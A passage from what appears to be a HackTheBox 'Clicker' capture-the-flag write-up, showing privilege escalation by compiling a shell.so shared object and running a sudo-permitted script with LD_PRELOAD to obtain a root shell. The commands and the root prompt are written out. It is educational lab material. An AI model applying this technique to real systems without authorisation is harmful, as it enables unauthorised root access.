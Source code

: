 
There’s no compilation tools on the host, but since both it and my VM are
Ubuntu-based, compiling locally shouldn’t cause issues. I’ll generate a `.so`
file:

    
    
    oxdf@hacky$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
    

I’ll copy this file up to Clicker into `/tmp`. Now I can run with `LD_PRELOAD`
pointing at this shared object and it will run `bash`:

    
    
    jack@clicker:~$ sudo LD_PRELOAD=/tmp/shell.so /opt/monitor.sh 
    root@clicker:/home/jack# 
    

[](/2024/01/27/htb-clicker.html)

